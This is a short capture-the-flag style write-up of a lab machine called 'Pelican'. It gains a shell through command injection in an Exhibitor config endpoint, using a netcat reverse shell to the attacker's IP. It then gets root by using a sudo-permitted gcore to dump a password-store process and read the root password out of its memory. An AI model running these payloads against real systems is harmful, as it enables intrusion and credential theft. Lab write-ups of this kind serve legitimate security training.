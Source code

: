 # Pelican

### Enumeration

```
8080/tcp  open  http        Jetty 1.0
|_http-server-header: Jetty(1.0)
|_http-title: Error 404 Not Found
```

http://192.168.181.98:8080/exhibitor/v1/ui/index.html

Exhibitor Web UI 1.7.1 - Remote Code Execution

https://www.exploit-db.com/exploits/48654

### Initial Access

```
Config:
$(/bin/nc -e /bin/sh 192.168.49.181 80 &)
---
curl -X POST -d @data.json http://192.168.181.98:8080/exhibitor/v1/config/set
```

### PrivEsc

```
charles@pelican:~$ sudo -l

    (ALL) NOPASSWD: /usr/bin/gcore

charles@pelican:~$ sudo gcore $PID
```

Gcore is dumping a process with its PID value. So, if you have enough permission to execute it, you can get cleartext password from the process.

```
charles@pelican:/tmp/test$ ps aux | grep root
root       495  0.0  0.0   2276    72 ?        Ss   17:12   0:00 /usr/bin/password-store

charles@pelican:/tmp/test$ sudo gcore 495
sudo gcore 495
0x00007f50a9fce6f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7ffccf6689b0, remaining=remaining@entry=0x7ffccf6689b0) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.495
[Inferior 1 (process 495) detached]

charles@pelican:/tmp/test$ strings core.495
...
001 Password: root:
[REDACTED]
...

charles@pelican:/tmp/test$ su root
```

